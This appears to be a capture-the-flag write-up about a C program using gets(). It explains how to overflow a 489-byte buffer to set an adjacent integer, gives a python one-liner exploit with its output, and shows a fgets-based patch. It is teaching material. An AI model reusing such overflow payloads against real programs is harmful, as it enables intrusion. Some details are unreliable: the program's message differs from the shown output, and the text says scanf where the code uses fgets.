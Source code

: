 Let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    gets(buffer);
    if(g == 0x44864486)
    {
        printf("Your first trainning is complete operative.\n");
    }

}
```

So as we can see here, this program suffers from the same vulnerabillity that level 0 suffered from. The inproper use of the gets() function (really that function shouldn't be used at all).
The buffer is the same size, and the integer is stored right next to the buffer so we should be able to reach the buffer in the same manner.
However this time, the integer is being compared to the hex value 0x44864486 (equivalent to 1149650054 in decimal). This won't be a problem however
since we can just push that value to the integer. That hex value is four bytes (just like ints in 32 bit C programs) so we shouldn't have a problem pushing to it. So our exploit will look like this

```
  filler (489 bytes to fill buffer space) + 0x44864486
```

One thing, due to how C programs read hex values we will have to push the hex in little endian format (least significant bit first). Essentially we will have to break the hex string up into four seperate pieces, and push them on in reverse order (and we ignore the 0x in the beginning). Look at the actual exploit for more detail. 

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b1$ python -c 'print "1"*489 + "\x86\x44\x86\x44"' | ./b1 
Just a little bit harder. But not as hard as all of the research you have to do. Level Cleared!
```

And just like that, we pwned the binary. Now let's patch it. It has the same vulnerabillity as the previous challenge, so the fix is the same.

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
    char buffer[489];
    int g;
    fgets(buffer, sizeof(buffer), stdin);
    if(g == 0x44864486)
    {
        printf("Just a little bit harder.\n");
    }

}
```

So we replace gets with scanf, and limited the amount of input it can take to the size of buffer so it can't overflow it. Now let's test it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b1$ python -c 'print "1"*489 + "\x86\x44\x86\x44"' | ./b1_secure 
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b1$ 
```

And just like that, we patched the binary.

